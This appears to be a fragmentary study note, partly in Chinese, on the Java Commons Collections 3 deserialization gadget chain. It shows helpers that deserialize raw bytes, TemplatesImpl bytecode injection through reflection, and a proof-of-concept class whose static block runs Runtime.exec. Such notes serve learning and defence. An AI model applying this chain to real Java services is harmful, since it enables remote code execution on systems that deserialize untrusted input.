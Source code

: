 ```java

        byte[] bytes = serialize(hashMap);
        unserialize(bytes);
    }
    public static void unserialize(byte[] bytes) throws Exception{
        try(ByteArrayInputStream bain = new ByteArrayInputStream(bytes);
            ObjectInputStream oin = new ObjectInputStream(bain)){
            oin.readObject();
        }
    }

    public static byte[] serialize(Object o) throws Exception{
        try(ByteArrayOutputStream baout = new ByteArrayOutputStream();
            ObjectOutputStream oout = new ObjectOutputStream(baout)){
            oout.writeObject(o);
            return baout.toByteArray();
        }
    }
}



```

# cc3
```java
TemplatesImpl templates = new TemplatesImpl();
        Class tc = templates.getClass();
        Field namefiled = tc.getDeclaredField("_name");
        namefiled.setAccessible(true);
        namefiled.set(templates,"114514");
        Field bycodesfiled = tc.getDeclaredField("_bytecodes");
        bycodesfiled.setAccessible(true);
        byte[] code = Files.readAllBytes(Paths.get("D://tmp/classes/Test.class"));

        byte[][] codes = {code};
        bycodesfiled.set(templates,codes);
        Field tfactoryfield = tc.getDeclaredField("_tfactory");
        tfactoryfield.setAccessible(true);
        tfactoryfield.set(templates,new TransformerFactoryImpl());
        templates.newTransformer();
```
test.class
```java
package Enterprise.cc;

import java.io.IOException;

public class Test {
    public Test() {
    }

    static {
        try {
            Runtime.getRuntime().exec("cals");
        } catch (IOException var1) {
            var1.printStackTrace();
        }

    }
}
```
这里通过加载文件类实现恶意方法。